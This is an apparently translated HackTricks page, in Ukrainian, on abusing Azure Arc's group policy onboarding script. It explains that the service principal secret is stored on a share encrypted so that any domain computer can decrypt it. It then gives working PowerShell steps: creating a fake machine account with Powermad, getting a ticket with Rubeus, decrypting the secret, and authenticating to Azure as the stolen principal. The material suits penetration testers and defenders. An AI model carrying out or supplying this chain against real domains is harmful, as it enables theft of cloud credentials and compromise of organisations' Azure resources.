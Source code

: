 # Az - Arc вразливий GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Виявлення проблем

Azure Arc дозволяє інтеграцію нових внутрішніх серверів (приєднаних до домену) в Azure Arc за допомогою методу об'єкта групової політики. Для цього Microsoft надає набір інструментів для розгортання, необхідний для ініціювання процедури приєднання. У файлі ArcEnableServerGroupPolicy.zip можна знайти наступні скрипти: DeployGPO.ps1, EnableAzureArc.ps1 та AzureArcDeployment.psm1.

При виконанні скрипт DeployGPO.ps1 виконує такі дії:

1. Створює GPO для приєднання серверів Azure Arc у локальному домені.
2. Копіює скрипт приєднання EnableAzureArc.ps1 на вказану мережеву папку, створену для процесу приєднання, яка також містить пакет установника Windows.

При запуску цього скрипта адміністраторам систем потрібно надати два основні параметри: **ServicePrincipalId** та **ServicePrincipalClientSecret**. Крім того, потрібні інші параметри, такі як домен, FQDN сервера, що хостить спільну папку, та ім'я спільної папки. Додаткові деталі, такі як ідентифікатор орендаря, група ресурсів та інша необхідна інформація також повинні бути надані скрипту.

Зашифрований секрет генерується в каталозі AzureArcDeploy на вказаній спільній папці за допомогою шифрування DPAPI-NG. Зашифрований секрет зберігається у файлі з назвою encryptedServicePrincipalSecret. Доказ цього можна знайти у скрипті DeployGPO.ps1, де шифрування виконується шляхом виклику ProtectBase64 з $descriptor та $ServicePrincipalSecret як вхідними даними. Дескриптор складається з SID груп комп'ютерів домену та контролерів домену, що забезпечує, що ServicePrincipalSecret може бути розшифрований лише контролерами домену та групами безпеки комп'ютерів домену, як зазначено в коментарях до скрипту.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ми маємо наступні умови:

1. Ми успішно проникли в внутрішню мережу.
2. У нас є можливість створити або взяти під контроль обліковий запис комп'ютера в Active Directory.
3. Ми виявили мережевий ресурс, що містить каталог AzureArcDeploy.

Існує кілька методів отримання облікового запису машини в середовищі AD. Один з найпоширеніших - це експлуатація квоти облікових записів машин. Інший метод полягає в компрометації облікового запису машини через вразливі ACL або різні інші неправильні налаштування.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Якщо обліковий запис машини отримано, можна автентифікуватися, використовуючи цей обліковий запис. Ми можемо або використовувати команду runas.exe з прапором netonly, або використовувати pass-the-ticket з Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Маючи TGT для нашого облікового запису комп'ютера, ми можемо використати наступний скрипт для розшифрування секрету службового принципала.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Альтернативно, ми можемо використовувати [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

На цьому етапі ми можемо зібрати залишкову інформацію, необхідну для підключення до Azure з файлу ArcInfo.json, який зберігається на тому ж мережевому загальному доступі, що й файл encryptedServicePrincipalSecret. Цей файл містить такі деталі, як: TenantId, servicePrincipalClientId, ResourceGroup та інше. З цією інформацією ми можемо використовувати Azure CLI для автентифікації як скомпрометований сервісний принципал.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
